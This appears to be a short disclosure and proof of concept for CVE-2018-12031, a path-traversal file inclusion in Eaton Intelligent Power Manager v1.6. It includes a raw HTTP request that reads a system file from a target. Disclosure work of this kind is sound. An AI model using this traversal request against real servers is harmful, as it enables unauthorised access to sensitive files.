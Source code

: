 # Eaton-Intelligent-Power-Manager-Local-File-Inclusion
Local file inclusion in Eaton Intelligent Power Manager  v1.6 allows an attacker to include a file, it can lead to sensitive information disclosure, denial of service and code execution.

# CVE-2018-12031
To exploit vulnerability, someone could use 'https://[HOST]/server/node_upgrade_srv.js?action=downloadFirmware&firmware=/../../../../../../../../../../' request to get some informations from the target.

```
GET /server/node_upgrade_srv.js?action=downloadFirmware&firmware=/../../../../../../../../../../windows/System32/drivers/etc/host HTTP/1.1
Host: 192.168.45.138:4680
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```


![alt tag](https://www.emreovunc.com/blog/en/eaton-power-manager-lfi.jpg)
